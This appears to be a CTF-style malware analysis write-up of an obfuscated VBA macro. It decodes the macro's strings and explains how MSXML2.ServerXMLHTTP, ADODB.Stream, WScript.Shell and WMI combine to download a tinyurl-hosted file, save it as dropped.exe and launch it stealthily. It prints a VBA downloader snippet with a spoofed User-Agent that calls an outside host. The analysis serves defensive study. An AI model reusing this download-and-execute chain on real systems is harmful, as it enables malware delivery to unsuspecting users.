 We've got strings from a vba script so we need to decode what
information from the script to know what' s going on .

![A screenshot of a computer code AI-generated content may be
incorrect.](media/media/image1.png){width="6.5in" height="2.3625in"}

First let us analyze this block .We are solely focusing on the hex
strings as the others are just functions written in gibberish .

![](media/media/image2.png){width="5.18378280839895in"
height="0.35003062117235345in"}

As & in between we need to concatenate

![A screenshot of a computer AI-generated content may be
incorrect.](media/media/image3.png){width="5.858840769903762in"
height="2.975258092738408in"}

We get a domain with a suspicious directory

![A screenshot of a computer AI-generated content may be
incorrect.](media/media/image4.png){width="6.217205818022747in"
height="0.8917443132108487in"}

Next block of code

![A screenshot of a computer AI-generated content may be
incorrect.](media/media/image5.png){width="6.5in"
height="2.0034722222222223in"}

Then the very next line says environ(temp)/ & referring to the same
function that gave us dropped exe so right form the tinyurl to this temp
everything seems to be related .

What I can deduce right now is that the url is trying to create a temp
file called dropped.exe .Lets move forward .

![A close up of numbers AI-generated content may be
incorrect.](media/media/image6.png){width="6.067192694663167in"
height="0.808403324584427in"}

This confirm its that something is being created .

![A screenshot of a computer AI-generated content may be
incorrect.](media/media/image7.png){width="6.067192694663167in"
height="3.9753444881889766in"}

**What it actually is**

- It's a **COM object** (a reusable Windows component).

> **COM objects in plain terms**

- **COM** = Component Object Model.

- They're **built-in Windows components** that behave like little tools
  or libraries.

- You don't "install" them every time; they're already there with
  Windows or Microsoft Office.

- A script (VBA, VBS, PowerShell, etc.) can say *"CreateObject(...)\"*
  and Windows hands it back that tool.

> **Why "class objects"**
>
> Each COM object is exposed as a **class** with methods and properties
> you can call.\
> Example:

- MSXML2.ServerXMLHTTP.6.0 → class for making HTTP requests.

- ADODB.Stream → class for writing/reading files/bytes.

- Scripting.FileSystemObject → class for file operations.

<!-- -->

- Part of Microsoft's XML Core Services (MSXML).

- "ServerXMLHTTP" is a special class inside that library.

- The .6.0 at the end just means "version 6 of the library."

------------------------------------------------------------------------

**What it does**

It gives you a way to **make HTTP(S) requests directly from a script**.\
Think of it as:

- A built-in "web browser without the window."

- You can say: *"connect to this URL, send this request, return the
  response."*

------------------------------------------------------------------------

**Why malware uses it**

- No need to ship a downloader --- Windows already has this object.

- It lets them pretend to be a browser (by setting User-Agent).

- It can talk over HTTPS just like Chrome/Edge/IE.

- Works fine from VBA, VBS, or PowerShell.

------------------------------------------------------------------------

**Typical usage in a malicious VBA script**

Set http = CreateObject(\"MSXML2.ServerXMLHTTP.6.0\")

\'Open a connection

http.Open \"GET\", \"https://tinyurl.com/g2z2gh6f\", False

\'Set fake headers to look like IE6 on Windows 2000

http.setRequestHeader \"User-Agent\", \"Mozilla/4.0 (compatible; MSIE
6.0; Windows NT 5.0)\"

\'Send the request

http.Send

\'At this point, http.ResponseBody contains the downloaded file bytes

------------------------------------------------------------------------

**What happens next**

- The script takes http.ResponseBody (the raw downloaded data).

- Passes it to another COM object: **ADODB.Stream**.

- ADODB.Stream writes those bytes to disk (e.g. as dropped.exe).

- Then Wscript.Shell or Shell runs that file.

![A screenshot of a computer AI-generated content may be
incorrect.](media/media/image8.png){width="6.5in"
height="2.0395833333333333in"}

This is the user agent . Probably a fake one for authenctication.

Now we will answer some questions .

![A screenshot of a computer AI-generated content may be
incorrect.](media/media/image9.png){width="6.5in"
height="3.7840277777777778in"}

![A screenshot of a computer AI-generated content may be
incorrect.](media/media/image10.png){width="6.5in"
height="2.6326388888888888in"}

All straightforward as we decoded the meaning earlier .

![A screenshot of a computer program AI-generated content may be
incorrect.](media/media/image11.png){width="6.5in"
height="3.9756944444444446in"}![A screenshot of a computer code
AI-generated content may be
incorrect.](media/media/image12.png){width="6.5in"
height="2.5722222222222224in"}![A screenshot of a computer code
AI-generated content may be
incorrect.](media/media/image13.png){width="6.5in"
height="4.083333333333333in"}

Now we are analyzing the later part of the code .

![A screenshot of a computer AI-generated content may be
incorrect.](media/media/image14.png){width="6.5in"
height="1.8041666666666667in"}

Meaninful text out of it is .

WScript.Shell

winmgmts:\\\\.\\root\\cimv2:Win32_Process

1.  **WScript.Shell**

    - Another COM object.

    - Lets scripts run commands, launch executables, interact with the
      system shell.

    - 

    - Malware often uses it to execute the final payload (dropped.exe
      from before).

2.  **winmgmts:\\\\.\\root\\cimv2:Win32_Process**

    - This is **WMI (Windows Management Instrumentation)**.

    - root\\cimv2 = default WMI namespace on Windows.

    - Win32_Process = the WMI class that represents processes.

    - Meaning: The macro is preparing to **spawn a new process through
      WMI** (instead of calling cmd.exe directly).

------------------------------------------------------------------------

**Why malware uses WMI instead of just cmd.exe**

- **Stealth:** Some AV/EDR solutions flag direct cmd/ShellExecute calls.

- **Bypass restrictions:** WMI can spawn processes under different
  contexts.

- **Persistence or lateral movement:** WMI is commonly abused for remote
  code execution across machines.

This ties back to the rest of the VBA:

- **MSXML2.ServerXMLHTTP.6.0** → downloads the malicious file.

- **ADODB.Stream** → saves it as dropped.exe.

- **WScript.Shell / WMI Win32_Process** → executes that file stealthily.

![A screenshot of a computer screen AI-generated content may be
incorrect.](media/media/image15.png){width="6.5in"
height="1.3347222222222221in"}
